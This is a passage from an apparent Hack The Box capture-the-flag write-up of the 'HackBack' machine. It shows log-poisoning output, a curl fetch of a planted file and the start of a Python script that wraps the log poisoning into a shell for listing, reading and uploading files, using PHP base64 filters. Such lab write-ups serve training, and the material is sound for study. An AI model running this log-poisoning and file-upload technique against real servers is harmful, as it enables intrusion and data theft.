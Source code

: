     
    
    [04 March 2019, 11:22:03 AM] 10.10.14.14 - Username: Array
    (
        [0] => .
        [1] => ..
        [2] => 0xdf.txt
        [3] => index.html
        [4] => webadmin.php
    )
    1, Password: xxxxxx
    

I can see the file through my log poisoning file read:

    
    
    [04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: 0xdf was here
    , Password: xxxxxx
    

I can also see it over http since it’s in a directory being served:

    
    
    root@kali# curl http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/0xdf.txt
    0xdf was here
    

### File System Shell

#### Code

It’s certainly possible to enumerate the box with repeater and the techniques
above. Much like [FluJab a few weeks ago](/2019/06/15/htb-
flujab.html#scripting-it), this is a case where putting in bit of time up
front to write the script paid off over time as I used it more and more.

I won’t go through this line by line, but at a high level, on `__init__` (line
14) it will set the urls and cookie and call the function to clean the log.
`clean_log` uses the `webadmin.php` `init` method to empty the log (line 27),
and then adds poison for dir walks and file gets (line 29). I’ve used some
static strings to mark where the output will be (lines 30-31), which enables
my use of regex later to pull out the results (lines 40, 47, 59). I also build
a url where the file parameter is a php filter (lines 18-20), so the result is
always base64 encoded, allowing me to get php files. I’ve got user commands to
`dir`, `type`, `save` (download), and `upload`.

    
    
      1 #!/usr/bin/env python3
      2 
      3 import hashlib
      4 import netifaces
      5 import re
      6 import requests
      7 from cmd import Cmd
      8 from base64 import b64decode, b64encode
      9 
     10 
     11 class Terminal(Cmd):
     12     prompt = "> "
     13 
     14     def __init__(self, proxy=None):
     15         super().__init__()
     16         self.my_ip = netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr']
     17         self.sess = hashlib.sha256(self.my_ip.encode()).hexdigest()
     18         self.webadmin_url =  f'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?'
     19         self.webadmin_url += f'action={{action}}&site=hackthebox&password=12345678&session={self.sess}&'